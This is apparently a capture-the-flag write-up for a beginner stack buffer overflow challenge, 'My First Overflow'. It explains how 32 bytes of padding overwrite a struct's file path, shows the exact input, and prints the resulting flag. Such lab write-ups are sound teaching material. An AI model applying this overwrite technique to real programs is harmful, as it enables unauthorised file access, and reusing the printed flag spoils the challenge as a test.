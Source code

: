 # My First Overflow

<p align="center">
<img src="./utils/my_first_overflow.png" alt="Challenge" width="500"/>
</p>

Connecting to the remote instance with `netcat` we are given some of the [source code](./utils/program.c) for the challenge. We are also given the goal of the challenge, and some options to interact with the program.
```
Your goal is to overwrite data.path with "flag.txt"
Currently it contains: "test.txt"
The "Trigger bug" menu option opens and prints the contents of the file in data.path

Google these terms for help:
- stack
- stack overflow / buffer overflow

Good luck!

1. Fill buffer
2. Print stack frame
3. Trigger bug
4. Challenge description
5. [Quit]
>
```

If we choose option 1, we can fill the buffer with 512 bytes of data, but the `file_data` struct is not large enough to hold all of this data. The first 32 bytes of our input will be copied into the `buf` entry (`data->buf`), the 64 next bytes into `data->path`, the next 4 bytes into `data->size`, and the rest will overwrite the next contents on the stack.

Because our goal is just to overwrite the `data->path` with "flag.txt", we can just fill the buffer with 32 bytes of padding (any character), and then write "flag.txt" into the `data->path` entry.

```
1. Fill buffer
2. Print stack frame
3. Trigger bug
4. Challenge description
5. [Quit]
> 1
Data: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAflag.txt
Done!

1. Fill buffer
2. Print stack frame
3. Trigger bug
4. Challenge description
5. [Quit]
> 3
Opening file: "flag.txt"
Contents:
flag{path_overwrite_in_the_house}
```